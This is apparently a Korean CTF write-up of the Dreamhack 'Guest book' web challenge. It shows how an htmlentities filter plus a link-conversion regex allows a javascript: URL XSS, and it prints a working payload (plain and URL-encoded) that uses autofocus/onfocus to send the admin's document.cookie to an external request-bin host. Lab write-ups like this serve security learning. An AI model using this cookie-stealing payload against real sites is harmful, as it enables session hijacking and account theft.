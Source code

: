 ```yaml
---
layout: single
title: "[Dreamhack] Guest book write-up"
date: 2024-12-08 19:25 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] Guest book

<br>

### 문제 설명

- php로 개발 중인 방명록 서비스입니다.
- 글을 쓰는 기능과, 오류가 발생하는 주소를 관리자가 확인할 수 있도록 하는 Report기능이 존재합니다.
- 플래그는 관리자의 쿠키에 포함되어 있습니다.

<br>

### 풀이

먼저 문제 페이지에 접속해보면 아래와 같이 글을 쓸 수 있는 기능인 GuestBook.php와 관리자 권한으로 접근할 수 있는 Report.php가 존재한다.

<img src="/images/2024-12-08-Guest-book/{A96D8CF6-EA23-48F8-9D38-55401D251695}.png" alt="{A96D8CF6-EA23-48F8-9D38-55401D251695}" style="zoom:50%;" />

<img src="/images/2024-12-08-Guest-book/{8E9280E0-00FC-4DAE-AA9A-7EE2FDC172C9}.png" alt="{8E9280E0-00FC-4DAE-AA9A-7EE2FDC172C9}" style="zoom:50%;" />

<img src="/images/2024-12-08-Guest-book/{78387548-1AD0-421B-A5F8-149631AC6A8A}.png" alt="{78387548-1AD0-421B-A5F8-149631AC6A8A}" style="zoom:50%;" />

<br>

문제 소스 코드를 보면 GuestBook.php에 관한 소스 코드인 것을 알 수 있다. `htmlentities` 함수를 사용해 본문 내용을 필터링하고 `[]()` 형태로 작성하면 a 태그로 치환되어 작성된다.

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  return $content;
}
?>
```

<br>

따라서 구글 사이트로 본문을 `[]()` 형태로 작성해보면 구글 사이트로 잘 리다이렉트 되는 것을 확인할 수 있다.

<img src="/images/2024-12-08-Guest-book/{34452846-E2D2-48BF-8DBE-AA9401F2B2E1}.png" alt="{34452846-E2D2-48BF-8DBE-AA9401F2B2E1}" style="zoom:50%;" />

<img src="/images/2024-12-08-Guest-book/{EB8B9574-234A-440A-8B1A-B5A7089E315D}.png" alt="{EB8B9574-234A-440A-8B1A-B5A7089E315D}" style="zoom:50%;" />

<br>

이 문제는 학교 선배가 한 번 풀어보라고 하셔서 풀어봤는데 DOM Cloberring으로도 풀 수 있다고 했다. 그래서 인터넷에서 DOM Cloberring에 대해서 좀 찾아보고, 여기에서 DOM Cloberring 취약점이 나올 거라고 생각했다.

![{01952B1C-4D6F-464E-9D6E-59CB9F8C1580}](/images/2024-12-08-Guest-book/{01952B1C-4D6F-464E-9D6E-59CB9F8C1580}.png)

<br>

해당 페이지에서 config.js 코드를 살펴보면 마지막에 `Object.freeze`라고 객체를 동결시켜 버려서 약간 애를 많이 먹다가 0.2 버전에서 DOM Cloberring으로 풀면 되기 때문에 이번 문제에서는 XSS로 풀기로 했다.

```javascript
window.CONFIG = {
  version: "v0.1",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);
```

<br>

문제소스 코드를 다시 보면 `htmlentities`로 본문 내용을 필터링 하고 있는데 이 함수는 기본적으로 사용하면 `'`, `=`, `+` , `()` `[]`, `!` 등등 필터링에 걸리지 않는 특수문자들이 조금 있기 때문에 javascript 스키마를 사용해서 문제를 풀 수 있다.

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  return $content;
}
?>
```

<br> 이 부분에서 시간이 조금 오래 걸렸는데 이유는 해당 관리자가 이 url을 접속했을 때 자동으로 a태그를 누르게끔 만들어야 하기 때문이다. 그래서 인터넷을 찾아보다 autofocus와 onfocus를 같이 사용해 해당 href 속성의 url로 이동되게끔 만들었다.

```text
[xss](javascript:location=`https://ueemffv.request.dreamhack.games?cookie=`+document.cookie' id='autoClick' autofocus onfocus='location=this.href')

```

<br>

따라서 report 페이지에는 해당 content라는 파라미터 값에 위 페이로드를 url 인코딩을 수행해 넣어주면 관리자의 쿠키를 공격자의 서버로 보낼 수 있다. (GuestBook.php 앞에 있는 `/` 문자는 지워야 한다.)

![{153AD1EC-A924-4FF5-9F62-3E39953C583E}](/images/2024-12-08-Guest-book/{153AD1EC-A924-4FF5-9F62-3E39953C583E}.png)

```text
GuestBook.php?content=%5Bxss%5D%28javascript%3Alocation%3D%60https%3A%2F%2Ffymhnew.request.dreamhack.games%3Fcookie%3D%60%2Bdocument.cookie%27%20id%3D%27autoClick%27%20autofocus%20onfocus%3D%27location%3Dthis.href%27%29
```

![{BEA13EA3-71FB-4D37-99B2-F142A3653902}](/images/2024-12-08-Guest-book/{BEA13EA3-71FB-4D37-99B2-F142A3653902}.png)
